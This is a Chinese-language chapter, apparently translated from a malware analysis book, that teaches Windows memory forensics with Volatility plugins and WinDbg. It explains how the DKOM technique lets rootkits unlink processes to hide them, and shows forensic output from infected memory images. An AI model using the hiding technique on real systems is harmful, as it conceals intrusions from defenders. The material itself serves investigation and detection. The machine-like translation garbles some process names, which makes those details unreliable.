帮助选项，-h(——help)，您之前看到的，显示了应用于所有Volatility插件的帮助。您可以使用相同的-h(——help)选项来确定插件支持的各种选项和参数。为此，只需在插件名称旁边输入-h(——help)。下面的命令显示pslist插件的帮助选项:

```
$ python vol.py -f mem_image.raw --profile=Win7SP1x86 pslist -h
```

在这一点上，你应该了解如何在获取的内存映像上运行Volatility插件，以及如何确定插件支持的各种选项。在下面的部分中，您将了解不同的插件，以及如何使用它们从内存映像中提取电子证据。

### 4. 列举进程
在研究内存映像时，您将主要关注识别系统上运行的任何可疑进程。在Volatility中有各种各样的插件可以让你枚举进程。Volatility的pslist插件从内存映像中列出进程，类似于任务管理器在活动系统中列出进程的方式。在下面的输出中，运行pslist插件对一个被恶意软件样本(Perseus)感染的内存映像显示两个可疑进程:svchost.exe (pid 3832)和suchost.exe (pid 3924)。这两个进程可疑的原因是，这些进程的名称在.exe扩展名之前有一个额外的点字符(这是不正常的)。在干净的系统上，您会发现svchost.exe进程的多个实例正在运行。通过创建一个进程，例如svchost.exe和suchost. exe，攻击者试图通过使这些进程看起来类似于合法的svchost.exe进程来混入:

```
$ python vol.py -f perseus.vmem --profile=Win7SP1x86 pslist
Volatility Foundation Volatility Framework 2.6
Offset(V) Name PID PPID Thds Hnds Sess Wow64 Start
---------- ----------- ---- ----- ---- ---- ---- ----- ------------------- 0x84f4a8e8 System 4 0 88 475 ---- 0 2016-09-23 09:21:47 0x8637b020 smss.exe 272 4 2 29 ---- 0 2016-09-23 09:21:47 0x86c19310 csrss.exe 356 340 8 637 0 0 2016-09-23 09:21:49 0x86c13458 wininit.exe 396 340 3 75 0 0 2016-09-23 09:21:49 0x86e84a08 csrss.exe 404 388 9 191 1 0 2016-09-23 09:21:49 0x87684030 winlogon.exe 452 388 4 108 1 0 2016-09-23 09:21:49 0x86284228 services.exe 496 396 11 242 0 0 2016-09-23 09:21:49 0x876ab030 lsass.exe 504 396 9 737 0 0 2016-09-23 09:21:49 0x876d1a70 svchost.exe 620 496 12 353 0 0 2016-09-23 09:21:49 0x864d36a8 svchost.exe 708 496 6 302 0 0 2016-09-23 09:21:50 0x86b777c8 svchost.exe 760 496 24 570 0 0 2016-09-23 09:21:50 0x8772a030 svchost.exe 852 496 28 513 0 0 2016-09-23 09:21:50 0x87741030 svchost.exe 920 496 46 1054 0 0 2016-09-23 09:21:50 0x877ce3c0 spoolsv.exe 1272 496 15 338 0 0 2016-09-23 09:21:50 0x95a06a58 svchost.exe 1304 496 19 306 0 0 2016-09-23 09:21:50 0x8503f0e8 svchost..exe 3832 3712 11 303 0 0 2016-09-23 09:24:55 0x8508bb20 suchost..exe 3924 3832 11 252 0 0 2016-09-23 09:24:55 0x861d1030 svchost.exe 3120 496 12 311 0 0 2016-09-23 09:25:39
   [......REMOVED..............]
```
运行Volatility插件很容易;你可以在不知道它如何工作的情况下运行插件。了解插件的工作方式将帮助您评估结果的准确性，还将帮助您在攻击者使用隐形技术时选择正确的插件。问题是，pslist是如何工作的?要理解这一点，首先需要理解什么是进程以及Windows内核如何跟踪进程。


#### 4.1 过程概述
进程是一个对象。Windows操作系统是基于对象的(不要与面向对象语言中使用的术语对象混淆)。对象指的是系统资源，比如进程、文件、设备、目录、互斥体等等，它们由内核中的一个称为对象管理器的组件管理。要了解Windows上的所有对象类型，可以使用WinObj工具(https://docs.microsoft.com/en-us/sysinternals/downloads/WinObj)。要查看WinObj中的对象类型，请以管理员身份启动WinObj，并在左侧窗格中单击ObjectTypes，这将显示所有的Windows对象。

对象(如进程、文件、线程等)在c中表示为结构。这意味着进程对象有一个与之相关联的结构，这个结构称为_EPROCESS结构。_EPROCESS结构体驻留在内核内存中，Windows内核使用EPROCESS结构体在内部表示一个进程。_EPROCESS结构包含与进程相关的各种信息，如进程名、进程ID、父进程ID、与进程关联的线程数、进程创建时间等。现在，回到pslist输出，并注意特定进程显示的信息类型。例如，如果您查看来自pslist输出的第二个条目，它显示了sms.exe进程的名称、其进程ID(272)、父进程ID(4)等等。您可能已经猜到了，与进程相关的信息来自它的_EPROCESS结构体。

##### 4.1.1 检查_EPROCESS结构
要检查_EPROCESS结构及其包含的信息类型，可以使用内核调试器，如WinDbg。WinDbg有助于探索和理解操作系统数据结构，这通常是内存取证的一个重要方面。要安装WinDbg，你需要安装“Windows调试工具”包，它是微软SDK的一部分(不同的安装类型请参考https://docs.microsoft.com/en-us/windows-hardware/drivers/debugger/index)。一旦安装完成，您可以在安装目录中找到WinDbg.exe(在我的例子中，它位于C:\Program Files (x86)\Windows Kits\8.1\Debuggers\x64)。接下来，从Sysinternals (https://docs.microsoft.com/en-us/sysinternals/downloads/ LiveKD)下载LiveKD实用程序，解压，然后将LiveKD.exe复制到WinDbg的安装目录。LiveKD使您能够在活动的系统上执行本地内核调试。要通过livekd启动WinDbg，打开命令提示符(以管理员身份)，导航到WinDbg安装目录，并使用-w开关运行livekd，如下所示。你也可以将Windbg安装目录添加到path环境变量中，这样你就可以从任何路径启动LiveKD:

```
C:\Program Files (x86)\Windows Kits\8.1\Debuggers\x64>livekd -w
```
livekd -w命令自动启动Windbg，加载符号，并向您显示准备接受命令的kd>提示符，如下面的截图所示。要探索数据结构(例如_EPROCESS)，您将在命令提示符(kd>旁边)中输入适当的命令:




现在，回到我们对_EPROCESS结构的讨论，为了探索_EPROCESS结构，我们将使用Display Type命令(dt)。dt命令可用于研究表示变量、结构或联合的符号。在下面的输出中，使用dt命令显示nt模块(内核执行者的名称)中定义的_EPROCESS结构。EPROCESS结构由多个字段组成，存储进程的各种元数据。这是64位Windows 7系统的样子(一些字段已经被删除，以保持它小):

```
kd> dt nt!_EPROCESS
+0x000 Pcb : _KPROCESS
+0x160 ProcessLock : _EX_PUSH_LOCK
+0x168 CreateTime : _LARGE_INTEGER
+0x170 ExitTime : _LARGE_INTEGER
+0x178 RundownProtect : _EX_RUNDOWN_REF
+0x180 UniqueProcessId : Ptr64 Void
+0x188 ActiveProcessLinks : _LIST_ENTRY
+0x198 ProcessQuotaUsage : [2] Uint8B
+0x1a8 ProcessQuotaPeak : [2] Uint8B
[REMOVED]
+0x200 ObjectTable : Ptr64 _HANDLE_TABLE
+0x208 Token : _EX_FAST_REF
+0x210 WorkingSetPage : Uint8B
+0x218 AddressCreationLock : _EX_PUSH_LOCK [REMOVED]
+0x290 InheritedFromUniqueProcessId : Ptr64 Void +0x298 LdtInformation : Ptr64 Void
+0x2a0 Spare : Ptr64 Void
[REMOVED]
+0x2d8 Session : Ptr64 Void
+0x2e0 ImageFileName : [15] UChar
+0x2ef PriorityClass : UChar
[REMOVED]
```
下面是我们将在讨论中使用的_EPROCESS结构中一些有趣的字段:

* CreateTime:指示进程第一次启动的时间戳
* ExitTime:进程退出的时间戳
* UniqueProcessID:整数，引用进程的进程ID (PID)
* ActiveProcessLinks:一个双链表，链接系统上运行的所有活动进程
* InheritedFromUniqueProcessId:指定父进程PID的整数
* ImageFileName:一个由16个ASCII字符组成的数组，用于存储可执行进程的名称

在理解了如何检查_EPROCESS结构之后，现在让我们看一看特定进程的_EPROCESS结构。要做到这一点，让我们首先列出所有使用WinDbg的活动进程。可以使用!process extension命令打印特定进程或所有进程的元数据。在下面的命令中，第一个参数0列出了所有进程的元数据。您还可以通过指定_EPROCESS结构体的地址来显示单个进程的信息。第二个参数表示细节级别:

```
kd> !process 0 0
**** NT ACTIVE PROCESS DUMP **** PROCESS fffffa806106cb30
       SessionId: none Cid: 0004 Peb: 00000000 ParentCid: 0000
       DirBase: 00187000 ObjectTable: fffff8a0000016d0 HandleCount: 539.
       Image: System
   PROCESS fffffa8061d35700
       SessionId: none Cid: 00fc Peb: 7fffffdb000 ParentCid: 0004
       DirBase: 1faf16000 ObjectTable: fffff8a0002d26b0 HandleCount: 29.
       Image: smss.exe
   PROCESS fffffa8062583b30
       SessionId: 0 Cid: 014c Peb: 7fffffdf000 ParentCid: 0144
       DirBase: 1efb70000 ObjectTable: fffff8a00af33ef0 HandleCount: 453.
       Image: csrss.exe
[REMOVED]
```
> 关于WinDbg命令的详细信息，请参考Debugger.chm寻找帮助，位于WinDbg安装目录下。您也可以参考以下在线资源:http://windbg.info/doc/1-common-cmds.html和http://windbg.info/doc/2-windbg-a-z.html

在前面的输出中，让我们看看第二个条目，它描述了sms.exe。PROCESS旁边的地址fffffa8061d35700是与sms.exe实例相关联的_EPROCESS结构体的地址。Cid为进程ID，取值为00fc(十进制为252);ParentCid为父进程的进程ID，取值为0004。您可以通过检查sms.exe的_EPROCESS结构的字段值来验证这一点。的地址可以加后缀
显示类型(dt)命令末尾的_EPROCESS结构，如下面的命令所示。在下面的输出中，注意字段UniqueProcessId(进程ID)、InheritedFromUniqueProcessId(父进程ID)和ImageFileName(进程可执行名称)中的值。这些值与您之前从!process 0 0命令中确定的结果匹配:

```
kd> dt nt!_EPROCESS fffffa8061d35700
+0x000 Pcb : _KPROCESS
+0x160 ProcessLock : _EX_PUSH_LOCK
+0x168 CreateTime : _LARGE_INTEGER 0x01d32dde`223f3e88 +0x170 ExitTime : _LARGE_INTEGER 0x0
+0x178 RundownProtect : _EX_RUNDOWN_REF
+0x180 UniqueProcessId : 0x00000000`000000fc Void
+0x188 ActiveProcessLinks : _LIST_ENTRY [ 0xfffffa80`62583cb8 -
0xfffffa80`6106ccb8 ]
+0x198 ProcessQuotaUsage : [2] 0x658
[REMOVED]
+0x290 InheritedFromUniqueProcessId : 0x00000000`00000004 Void +0x298 LdtInformation : (null)
[REMOVED]
+0x2d8 Session : (null)
+0x2e0 ImageFileName : [15] "smss.exe"
+0x2ef PriorityClass : 0x2 ''
[REMOVED]
```
到目前为止，我们知道操作系统将关于进程的各种元数据信息保存在_EPROCESS结构中，该结构驻留在内核内存中。这意味着如果您可以找到一个特定进程的_EPROCESS结构体的地址，您就可以获得关于该进程的所有信息。那么，问题是，如何获取关于系统上运行的所有进程的信息?为此，我们需要了解Windows操作系统是如何跟踪活动进程的。


##### 4.1.2 理解ActiveProcessLinks
Windows使用_EPROCESS结构的循环双链表来跟踪所有的活动进程。_EPROCESS结构包含一个名为ActiveProcessLinks的字段，它的类型是LIST_ENTRY。_LIST_ENTRY是另一个包含两个成员的结构，如下面的命令输出所示。Flink(前向链接)指向下一个_EPROCESS结构的_LIST_ENTRY, Blink(后向链接)指向前一个_EPROCESS结构的_LIST_ENTRY:
```
kd> dt nt!_LIST_ENTRY
+0x000 Flink : Ptr64 _LIST_ENTRY +0x008 Blink : Ptr64 _LIST_ENTRY
```
Flink和Blink一起创建一个进程对象链;可以将其可视化如下:



需要注意的一点是，Flink和Blink并不指向_EPROCESS结构体的开始。Flink指向下一个_EPROCESS结构的_LIST_ENTRY结构的开始(第一个字节)，Blink指向前一个_EPROCESS结构的_LIST_ENTRY结构的第一个字节。这很重要的原因是,一旦你找到的_EPROCESS结构过程中,你可以向前走双向链表(使用Flink)或向后(Blink),然后减去偏移值到达_EPROCESS结构下的开始或之前的流程。为了帮助你理解这意味着什么，让我们看看sms.exe的_EPROCESS结构中的字段Flink和Blink的值:


```
kd> dt -b -v nt!_EPROCESS fffffa8061d35700 struct _EPROCESS, 135 elements, 0x4d0 bytes .....
      +0x180 UniqueProcessId : 0x00000000`000000fc
      +0x188 ActiveProcessLinks : struct _LIST_ENTRY, 2 elements, 0x10 bytes
    [ 0xfffffa80`62583cb8 - 0xfffffa80`6106ccb8 ]
+0x000 Flink : 0xfffffa80`62583cb8 +0x008 Blink : 0xfffffa80`6106ccb8
```
Flink的值是0xfffffa8062583cb8;这是下一个_EPROCESS结构的ActiveProcessLinks (Flink)的起始地址。在我们的示例中，由于ActiveProcessLinks位于_EPROCESS开始处0x188的偏移量，所以通过从Flink值减去0x188，您可以到达下一个进程的_EPROCESS结构的开始处。在下面的输出中，注意如何通过减去0x188我们降落在下一个进程的_EPROCESS结构上，这是csss.exe:
```
kd> dt nt!_EPROCESS (0xfffffa8062583cb8-0x188) +0x000 Pcb : _KPROCESS
+0x160 ProcessLock : _EX_PUSH_LOCK [REMOVED]
      +0x180 UniqueProcessId : 0x00000000`0000014c Void
      +0x188 ActiveProcessLinks : _LIST_ENTRY [ 0xfffffa80`625acb68 -
   0xfffffa80`61d35888 ]
      +0x198 ProcessQuotaUsage : [2] 0x2c18
      [REMOVED]
      +0x288 Win32WindowStation : (null)
      +0x290 InheritedFromUniqueProcessId : 0x00000000`00000144 Void
      [REMOVED]
+0x2d8 Session : 0xfffff880`042ae000 Void +0x2e0 ImageFileName : [15] "csrss.exe" +0x2ef PriorityClass : 0x2 ''
```
正如您所看到的，通过遍历这个双向链表，可以列出系统上运行的所有活动进程的信息。在活动的系统中，任务管理器或进程资源管理器等工具使用API函数，这些函数最终依赖于查找和遍历存在于内核内存中的相同的_EPROCESS结构的双链接列表。pslist插件还包含了从内存映像中查找和遍历相同的_EPROCESS结构的双链表的逻辑。为此，pslist插件会找到一个名为_PsActiveProcessHead的符号，它定义在ntoskrnl.exe(或ntkrnlpa.exe)中。这个符号指向_EPROCESS结构的双链表的开始;然后pslist遍历_EPROCESS结构的双链接列表，以枚举所有正在运行的进程。

> 关于本书中涉及到的Volatility插件的工作原理和逻辑的详细信息，请参考Michael Hale light、Andrew Case、Jamie Levy和Aaron Walters的《内存取证的艺术:在Windows、Linux和Mac内存中检测恶意软件和威胁》。

如前所述，像pslist这样的插件支持多个选项和参数;这可以通过在插件名称旁边输入-h(——help)来显示。pslist选项之一是——output-file。你可以使用这个选项来重定向pslist输出到文件，如下所示:

```
$ python vol.py -f perseus.vmem --profile=Win7SP1x86 pslist --output- file=pslist.txt
```
另一个选项是-p(——pid)。使用这个选项，如果你知道一个进程的进程ID (PID)，你可以确定它的信息:
```
$ python vol.py -f perseus.vmem --profile=Win7SP1x86 pslist -p 3832 Volatility Foundation Volatility Framework 2.6
Offset(V) Name PID PPID Thds Hnds Wow64 Start
---------- ------------ ---- ---- ---- ---- ----- ------------------- 0x8503f0e8 svchost..exe 3832 3712 11 303 0 2016-09-23 09:24:55
```

#### 4.2 使用psscan列出进程
psscan是Volatility的另一个插件，它列出了系统上运行的进程。与pslist不同，psscan不会遍历_EPROCESS对象的双链接列表。相反，它扫描物理内存，寻找进程对象的签名。换句话说，与pslist插件相比，psscan使用了不同的方法来列出进程。你可能会想，当psscan插件可以做同样的事情时，psscan插件有什么用?答案在于psscan使用的技术。由于它使用的方法，它可以检测终止的进程和隐藏的进程。攻击者可以隐藏进程，以防止司法分析人员在实时司法过程中发现恶意进程。现在的问题是，攻击者如何隐藏进程?要理解这一点，您需要了解一种称为DKOM(直接内核对象操作)的攻击技术。
##### 4.2.1 直接内核对象操作(DKOM)
DKOM是一种涉及修改内核数据结构的技术。使用DKOM，可以隐藏进程或驱动程序。为了隐藏进程，攻击者可以找到他/她想要隐藏的恶意进程的_EPROCESS结构，并修改ActiveProcessLinks字段。特别是，前一个_EPROCESS块的Flink被设置为指向下一个_EPROCESS块的Flink，而下一个_EPROCESS块的Blink被设置为指向前一个_EPROCESS块的Flink。结果，与恶意程序进程相关的_EPROCESS块从双向链接列表中被解除链接(如下所示):


通过解除进程的链接，攻击者可以对活动的取证工具隐藏恶意进程，这些取证工具依赖于遍历双链接列表来枚举活动进程。正如您可能已经猜到的，这种技术还隐藏了pslist插件的恶意进程(它也依赖于遍历双链接列表)。以下是感染了prolaco rootkit的系统的pslist和psscan输出，该系统执行DKOM来隐藏进程。为了简单起见，下面的输出中删除了一些条目。当你比较pslist和psscan的输出时，你会注意到psscan输出中有一个额外的进程，名为nvid.exe (pid 1700)，它在pslist中不存在:

```
$ python vol.py -f infected.vmem --profile=WinXPSP3x86 pslist
Volatility Foundation Volatility Framework 2.6
Offset(V) Name PID PPID Thds Hnds Sess Wow64 Start
--------- ------------- ---- ---- ---- ---- ---- ----- ------------------- 0x819cc830 System 4 0 56 256 ---- 0
0x814d8380 smss.exe 380 43 19 ---- 0 2014-06-11 14:49:36 0x818a1868 csrss.exe 632 380 11 423 0 0 2014-06-11 14:49:36 0x813dc1a8 winlogon.exe 656 380 24 524 0 0 2014-06-11 14:49:37 0x81659020 services.exe 700 656 15 267 0 0 2014-06-11 14:49:37 0x81657910 lsass.exe 712 656 24 355 0 0 2014-06-11 14:49:37 0x813d7688 svchost.exe 884 700 21 199 0 0 2014-06-11 14:49:37 0x818f5d10 svchost.exe 964 700 10 235 0 0 2014-06-11 14:49:38 0x813cf5a0 svchost.exe 1052 700 84 1467 0 0 2014-06-11 14:49:38 0x8150b020 svchost.exe 1184 700 16 211 0 0 2014-06-11 14:49:40 0x81506c68 spoolsv.exe 1388 700 15 131 0 0 2014-06-11 14:49:40 0x81387710 explorer.exe 1456 1252 16 459 0 0 2014-06-11 14:49:55

$ python vol.py -f infected.vmem --profile=WinXPSP3x86 psscan
Volatility Foundation Volatility Framework 2.6
Offset(P) Name PID PPID PDB Time created ------------------ ------------ ---- ---- ---------- ------------------- 0x0000000001587710 explorer.exe 1456 1252 0x08440260 2014-06-11 14:49:55 0x00000000015cf5a0 svchost.exe 1052 700 0x08440120 2014-06-11 14:49:38 0x00000000015d7688 svchost.exe 884 700 0x084400e0 2014-06-11 14:49:37 0x00000000015dc1a8 winlogon.exe 656 380 0x08440060 2014-06-11 14:49:37 0x00000000016ba360 nvid.exe 1700 1660 0x08440320 2014-10-17 09:16:10 0x00000000016d8380 smss.exe 380 4 0x08440020 2014-06-11 14:49:36 0x0000000001706c68 spoolsv.exe 1388 700 0x084401a0 2014-06-11 14:49:40 0x000000000170b020 svchost.exe 1184 700 0x08440160 2014-06-11 14:49:40 0x0000000001857910 lsass.exe 712 656 0x084400a0 2014-06-11 14:49:37 0x0000000001859020 services.exe 700 656 0x08440080 2014-06-11 14:49:37 0x0000000001aa1868 csrss.exe 632 380 0x08440040 2014-06-11 14:49:36 0x0000000001af5d10 svchost.exe 964 700 0x08440100 2014-06-11 14:49:38 0x0000000001bcc830 System 4 0 0x00319000

```
##### 4.2.2 了解池标签扫描
如果您还记得，我以前将进程、文件、线程等系统资源称为对象(或执行对象)。执行对象称为对象管理器的内核组件管理。每个执行对象都有一个与之相关联的结构(例如进程对象的_EPROCESS)。执行对象结构前面有一个_OBJECT_HEADER结构，它包含关于对象类型和一些引用计数器的信息。然后在_OBJECT_HEADER前面加上零个或多个可选头。换句话说，你可以把对象看作是执行对象结构、对象头和可选头的组合，如下图所示:


要存储对象，需要内存，而这些内存是由Windows内存管理器从内核池中分配的。内核池是一段内存，可以划分为更小的块，用于存储对象等数据。池分为分页池(其内容可以交换到磁盘)和非分页池(其内容永久驻留在内存中)。对象(如进程和线程)保存在内核中的一个非分页池中，这意味着它们将始终驻留在物理内存中。

当Windows内核接收到创建对象的请求时(可能是由于CreateProcess或CreateFile等进程的API调用)，内存会从分页池或非分页池(取决于对象类型)分配给对象。通过在对象前加上_POOL_HEADER结构来标记这个分配，因此在内存中，每个对象都有一个可预测的结构，类似于下面截图中显示的结构。_POOL_HEADER结构包括一个名为PoolTag的字段，该字段包含一个四字节标记(称为池标记)。这个池标记可以用来标识一个对象。对于进程对象，标记是Proc，对于文件对象，标记是File，依此类推。_POOL_HEADER结构还包含告诉分配大小和内存类型(分页或非分页池)的字段，它描述:



你可以认为所有驻留在内核内存的非分页池中的进程对象(最终映射到物理内存)都被标记为一个标记，Proc正是这个标记被挥发的psscan用作识别进程对象的起点。特别是，它扫描物理内存中的Proc标记，以识别与进程对象关联的池标记分配，并通过使用更健壮的签名和启发式进一步确认它。一旦psscan找到进程对象，它就从它的_EPROCESS结构中提取必要的信息。psscan重复这个过程，直到找到所有的进程对象。事实上，许多Volatility插件依赖池标签扫描来识别和提取内存图像中的信息。

由于使用的方法不同，psscan插件不仅可以检测隐藏的进程，还可以检测终止的进程。当一个对象被销毁(例如当一个进程终止),包含该对象的内存分配释放回内核的内存池,但内存中的内容不是立即覆盖,这意味着进程对象仍然可以在内存,除非内存是分配给一个不同的目标。如果包含终止进程对象的内存没有被覆盖，那么psscan可以检测到终止的进程。

> 关于池标签扫描的详细信息，请参考Andreas Schuster的论文search For Processes and Threads in Microsoft Windows Memory Dumps，或者阅读《The Art of Memory Forensics.内存鉴定的艺术》一书。

在这一点上，您应该了解了Volatility插件是如何工作的;大多数插件使用类似的逻辑。总之，关键信息存在于内核维护的数据结构中。插件依赖于从这些数据结构中查找和提取信息。寻找和提取司法证据的方法各不相同;一些插件依赖于浏览双重链接列表(如pslist)，一些使用池标记扫描技术(如psscan)来提取相关信息。

#### 4.3 确定过程的关系
在检查进程时，确定进程之间的父/子关系可能会很有用。在恶意软件调查期间，这将帮助您了解其他哪些进程与恶意进程相关。pstree插件通过使用来自pslist的输出并将其格式化为树状视图来显示父-子进程关系。在下面的例子中，针对受感染的内存映像运行pstree插件会显示进程关系;子进程向右缩进并在前面加上句点。从输出中，您可以看到OUTLOOK.EXE是由explorer.exe进程启动的。这很正常，因为每当您通过双击启动应用程序时，都是资源管理器启动该应用程序。OUTLOOK.EXE (pid 4068)启动了EXCEL.EXE (pid 1124)，反过来调用cmd.exe (pid 4056)来执行恶意程序进程doc6.exe (pid 2308)。通过查看这些事件，你可以假设用户打开了一个通过电子邮件发送的恶意Excel文档，该文档可能利用了一个漏洞或执行了一个宏代码来删除恶意软件，并通过cmd.exe执行:

```
$ python vol.py -f infected.raw --profile=Win7SP1x86 pstree Volatility Foundation Volatility Framework 2.6
Name Pid PPid Thds Hnds Time ------------------------ ---- ----- ---- ---- ------------------- [REMOVED]
0x86eb4780:explorer.exe 1608 1572 35 936 2016-05-11 12:15:10 . 0x86eef030:vmtoolsd.exe 1708 1608 5 160 2016-05-11 12:15:10 . 0x851ee2b8:OUTLOOK.EXE 4068 1608 17 1433 2018-04-15 02:14:23 .. 0x8580a3f0:EXCEL.EXE 1124 4068 11 377 2018-04-15 02:14:35 ... 0x869d1030:cmd.exe 4056 1124 5 117 2018-04-15 02:14:41 .... 0x85b02d40:doc6.exe 2308 4056 1 50 2018-04-15 02:14:59

```
由于pstree插件依赖于pslist插件，所以它不能列出隐藏或终止的进程。另一种确定进程关系的方法是使用psscan插件生成父/子关系的可视化表示。的
以下psscan命令将输出输出打印成点格式，然后可以使用图形可视化软件，如Graphviz (https://www.graphviz.org/)或XDot(可以使用sudo apt install XDot安装在Linux系统上)打开:
```
$ python vol.py -f infected.vmem --profile=Win7SP1x86 psscan --output=dot - -output-file=infected.dot
```
打开感染。XDot的dot文件显示了前面讨论的进程之间的关系:


#### 4.4 使用psxview列出进程
在前面，您看到了如何操纵进程列表来隐藏进程;您还了解了psscan如何使用池标记扫描来检测隐藏的进程。事实证明，_POOL_HEADER (psscan所依赖的)只用于调试目的，它不会影响操作系统的稳定性。这意味着攻击者可以安装内核驱动程序在内核空间中运行，并修改池标记或_POOL_HEADER中的任何其他字段。通过修改池标记，攻击者可以阻止依赖池标记扫描的插件正常工作。换句话说，通过修改池标记，可以对psscan隐藏进程。为了克服这个问题，psxview插件依赖于从不同的来源提取进程信息。它以7种不同的方式列举了这个过程。通过比较不同来源的输出，可以检测出恶意软件造成的差异。在下面的截图中，psxview使用7种不同的技术枚举了进程。每个进程的信息显示为一行，它使用的技术显示为包含True或False的列。特定列下的False值表示没有使用相应的方法找到进程。在接下来的输出，psxview使用除pslist方法外的所有方法检测隐藏进程nvid.exe (pid 1700):


在前面的屏幕截图中，您将注意到一些进程的值为假。例如，cmd.exe进程不存在于除psscan方法之外的任何方法中。你可能认为cmd.exe是隐藏的，但这不是真的;你看到False的原因是cmd.exe被终止了(你可以从ExitTime列告诉它)。结果，所有其他技术都无法在psscan能够找到它的地方找到它，因为池标记扫描可以检测终止的进程。换句话说，列中的False值并不一定意味着对该方法隐藏进程;它也可能意味着它是预期的(取决于该方法获取流程信息的方式和来源)。要知道它是否是预期的，可以使用下面的-r(——apply-rules)选项。在下面的截图中，请注意False值是如何被替换为Okay的。ok表示False，但这是预期的行为。在使用-R(——apply-rules)运行psxview插件后，如果你仍然看到一个False值(例如在下面的截图中pid为1700的nvid.exe)，那么这是一个强烈的迹象，表明该方法隐藏了进程:



### 5. 列出进程句柄
在调查过程中，一旦锁定了一个恶意进程，您可能想知道进程正在访问哪些对象(例如进程、文件、注册表项等等)。这将给您一个与恶意软件相关的组件的想法和洞察他们的操作，例如，一个键盘记录器可能正在访问一个日志文件来记录捕获的击键，或者恶意软件可能有一个打开的句柄到配置文件。

要访问一个对象，进程首先需要通过调用CreateFile或CreateMutex之类的API来打开该对象的句柄。一旦它打开一个对象的句柄，它就使用这个句柄来执行后续操作，如写入文件或读取文件。句柄是对对象的间接引用;把句柄看作代表一个对象的东西(句柄不是对象本身)。对象驻留在内核内存中，而进程运行在用户空间中，因此进程不能直接访问对象，因此它使用代表该对象的句柄。

每个进程都有一个私有句柄表，它驻留在内核内存中。该表包含所有与进程相关的内核对象，如文件、进程和网络套接字。问题是，如何填充这个表?当内核从进程获得创建对象的请求时(通过CreateFile之类的API)，该对象就会在内核内存中创建。指向该对象的指针放置在进程句柄表中第一个可用的槽位，并将相应的索引值返回给进程。索引值是表示该对象的句柄，该句柄被进程用来执行后续操作。

在活动的系统上，您可以使用process Hacker工具检查特定进程访问的内核对象。为此，以管理员身份启动Process Hacker，右键单击任何进程，然后选择Handles选项卡。下面的截图显示了csrs.exe进程的进程句柄.exe是一个合法的操作系统进程，它在每个进程和线程的创建过程中发挥作用。由于这个原因，你会看到css.exe打开了系统上运行的大部分进程(除了它自己和它的父进程)的句柄。在下面的截图中，第三列是句柄值，第四列是内核内存中对象的地址。例如，第一个进程wininit.exe位于内核内存中的地址0x8705c410(它的_EPROCESS结构的地址)，表示该对象的句柄值为0x60:



> psxview插件使用的一种方法依赖于遍历csrs.exe进程的句柄表来识别进程对象。如果有多个csrs.exe实例，psxview解析所有csrs.exe实例的句柄表，列出正在运行的进程，除了csrs.exe进程及其父进程(sms.exe和系统进程)。

从内存映像中，您可以获得一个进程使用handles插件访问的所有内核对象的列表。下面的截图显示了pid为356的进程的句柄。如果你运行不带-p选项的handles插件，它将显示所有进程的句柄信息:

您还可以使用-t选项过滤特定对象类型(File、Key、Process、Mutant等等)的结果。在下面的例子中，对感染了Xtreme RAT病毒的内存映像运行了handles插件。handles插件用于列出恶意进程打开的互斥锁(pid 1772)。从下面的输出中，您可以看到Xtreme RAT创建了一个名为oZ694XMhk6yxgbTA0的互斥锁，以标记它在系统中的存在。像Xtreme RAT创建的互斥锁可以作为一个很好的基于主机的指示器，用于基于主机的监控:
```
$ python vol.py -f xrat.vmem --profile=Win7SP1x86 handles -p 1772 -t Mutant 

Volatility Foundation Volatility Framework 2.6
Offset(V) Pid Handle Access Type Details
---------- ---- ------ -------- ------ ----------------------------- 0x86f0a450 1772 0x104 0x1f0001 Mutant oZ694XMhk6yxgbTA0
0x86f3ca58 1772 0x208 0x1f0001 Mutant _!MSFTHISTORY!_
0x863ef410 1772 0x280 0x1f0001 Mutant WininetStartupMutex 0x86d50ca8 1772 0x29c 0x1f0001 Mutant WininetConnectionMutex 0x8510b8f0 1772 0x2a0 0x1f0001 Mutant WininetProxyRegistryMutex 0x861e1720 1772 0x2a8 0x100000 Mutant RasPbFile
   0x86eec520 1772 0x364  0x1f0001 Mutant ZonesCounterMutex
   0x86eedb18 1772 0x374  0x1f0001 Mutant ZoneAttributeCacheCounterMutex

```
在下面这个被TDL3 rootkit感染的内存映像的例子中，svchos.exe进程(pid 880)打开了恶意DLL和与rootkit相关的内核驱动程序的文件句柄:
```
$ python vol.py -f tdl3.vmem handles -p 880 -t File
Volatility Foundation Volatility Framework 2.6
Offset(V) Pid Handle Access Type Details
---------- --- ------ -------- ---- ---------------------------- 0x89406028 880 0x50 0x100001 File \Device\KsecDD
0x895fdd18 880 0x100 0x100000 File \Device\Dfs
[REMOVED]
0x8927b9b8 880 0x344 0x120089 File [REMOVED]\system32\TDSSoiqh.dll 0x89285ef8 880 0x34c 0x120089 File [REMOVED]\system32\drivers\TDSSpqxt.sys
```

### 6. DLL清单
在本书中，你已经看到了使用DLL实现恶意功能的恶意软件的例子。因此，除了调查进程之外，您可能还希望检查已加载的库列表。要列出加载的模块(可执行和dll)，你可以使用Volatility的dlllist插件。dlllist插件还会显示与进程相关的完整路径。让我们以一个名为Ghost RAT的恶意软件为例。它以服务DLL的形式实现恶意功能，因此，该恶意DLL通过svchost.exe进程加载(有关服务DLL的更多信息，请参阅第7章“恶意软件功能和持久性”中的服务部分)。下面是dlllist的输出，在这里您可以看到一个由svchost.exe进程(pid 800)加载的带有非标准扩展名(.ddf)的可疑模块。第一列Base指定Base地址，也就是加载模块的内存中的地址:
```
$ python vol.py -f ghost.vmem --profile=Win7SP1x86 dlllist -p 880 Volatility Foundation Volatility Framework 2.6 ****************************************************************** svchost.exe pid: 880
   Command line : C:\Windows\system32\svchost.exe -k netsvcs
Base       Size     LoadCount Path
---------- -------- --------- --------------------------------
0x00f30000 0x8000   0xffff
0x76f60000 0x13c000 0xffff
0x75530000 0xd4000  0xffff
0x75160000 0x4a000  0xffff
0x75480000 0xac000  0xffff
0x77170000 0x19000  0xffff
0x76700000 0x15c000 0x62
0x76c30000 0x4e000  0x19c
0x770a0000 0xc9000  0x1cd
[REMOVED]
C:\Windows\system32\svchost.exe
C:\Windows\SYSTEM32\ntdll.dll
C:\Windows\system32\kernel32.dll
C:\Windows\system32\KERNELBASE.dll
C:\Windows\system32\msvcrt.dll
C:\Windows\SYSTEM32\sechost.dll
C:\Windows\system32\ole32.dll
C:\Windows\system32\GDI32.dll
C:\Windows\system32\USER32.dll
0x74fe0000 0x4b000 0xffff
0x6bbb0000 0xf000 0x1
0x10000000 0x26000 0x1
data\acdsystems\acdsee\imageik.ddf
0x71200000 0x32000 0x3 C:\Windows\system32\WINMM.dll
```


